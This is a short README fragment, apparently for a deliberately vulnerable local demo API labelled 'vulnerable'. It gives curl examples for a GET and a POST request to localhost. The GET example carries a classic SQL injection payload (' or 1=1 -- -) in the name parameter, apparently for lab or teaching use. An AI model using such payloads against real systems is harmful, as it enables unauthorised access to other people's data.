 # vulnerable

## get request
```bash
curl http://localhost:8080/vun/api/users?name=michal%27%20or%201=1%20--%20-
```

## Post request
```bash
curl -X POST http://localhost:8080/vun/api/users 
   -H "Content-Type: application/json"
   -d '{"name": "michal", "surname": "hacker"}'  
```